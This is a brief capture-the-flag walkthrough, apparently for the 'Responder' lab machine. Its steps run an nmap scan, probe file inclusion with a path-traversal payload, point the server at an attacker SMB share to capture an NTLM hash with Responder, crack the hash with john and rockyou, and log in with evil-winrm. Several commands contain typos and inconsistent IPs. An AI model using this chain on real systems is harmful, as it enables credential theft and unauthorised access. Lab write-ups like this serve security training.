 ## Responder Analysis
# Initialize a full port scan without ping , default script, default version and save output to result.
1. nmap -sC -sV -p- --open -Pn 10.129.56.241 oN result  
# Nmap results 
1. port 80 (HTTP is running) but cannot visit the website. port 5985, port 7680 (pandu, a file transfer service) also running. 
2. Add ` 10.129.56.241  unika.htb` to `/ect/hosts`
3. Now visiting the site and clicking around,  we find that possible file inclusion vulnerabiltiy `page=` 
4. By inserting `page=../../../../etc/passwd` we figure out that the server is hosted from a windows system. 
5.  Based on the nmap scan we know that this is a windows box.
6.  We also know that the page is vulnerable to Remote file inclusion. We can try LLMNR posioning.
7.  `sudo responder -I tun0` to prepare to catch NTLM challenge/responder
8. Try to get the NTLMV1 hash by fasly connecting to SMB. add page=***//myIP/randomfile***. Save the hash to hash.txt
9. `john -w=/usr/share/wordlists/rockyou.txt hash.txt`
10. connect to windows using `evil-winrm -i 10.129.136.91 -u 'USERNAME FROM HASH'  -p 'PASSWORD FROM HASH'

